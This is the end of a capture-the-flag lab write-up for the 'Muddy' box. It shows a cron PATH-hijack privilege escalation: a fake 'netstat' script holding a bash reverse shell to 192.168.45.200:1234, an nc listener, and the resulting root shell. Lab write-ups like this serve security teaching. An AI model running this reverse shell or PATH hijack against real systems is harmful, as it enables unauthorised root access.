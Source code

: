 ```sh
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    netstat -tlpn > /root/status && service apache2 status >> /root/status && service mysql status >> /root/status
```

> **Note:** The PATH variable is specified with a new directory `PATH=/dev/shm:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin`. 
>
> So when the cronjob runs, the system will check for the `netstat` binary's existence in the `dev/shm` folder first and then it will search in other folders.

Create a reverse shell and save it as `netstat`, apply executable permission `chmod +x netstat` and wait for reverse connection.

**netstat**

```sh
#!/bin/bash
/bin/bash -i >& /dev/tcp/192.168.45.200/1234 0>&1;
```

```sh
naveenj@hackerspace:|22:52|~/proving_grounds/Muddy$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.45.200] from (UNKNOWN) [192.168.196.161] 40118
bash: cannot set terminal process group (16587): Inappropriate ioctl for device
bash: no job control in this shell
root@muddy:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@muddy:~# 
```

**Root Obtained**

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).